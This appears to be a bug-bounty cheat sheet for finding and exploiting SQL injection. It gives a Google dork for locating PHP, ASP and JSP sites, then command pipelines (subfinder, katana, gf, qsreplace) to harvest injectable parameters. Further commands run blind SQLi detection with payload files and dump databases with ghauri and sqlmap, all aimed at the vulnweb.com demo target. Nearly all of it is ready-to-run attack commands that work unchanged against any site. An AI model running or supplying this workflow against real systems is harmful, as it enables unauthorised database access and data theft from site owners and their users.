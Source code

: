 ## Dork

```
site:.in & filetype:php | filetype:asp | filetype:aspx | filetype:jsp | filetype:jspx & intext:"responsible disclosure"
```
<a href="https://gist.githubusercontent.com/derlin/421d2bb55018a1538271227ff6b1299d/raw/3a131d47ca322a1d001f1f79333d924672194f36/country-codes-tlds.json">More country tlds</a>
<a href="https://github.com/HackShiv/OneDorkForAll/blob/main/dorks/Bug%20Bounty%20dork.txt" >More bug bounty dorks</a>

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.all.parameters.txt
```

## Only SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.sql.parameters.txt
```

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```
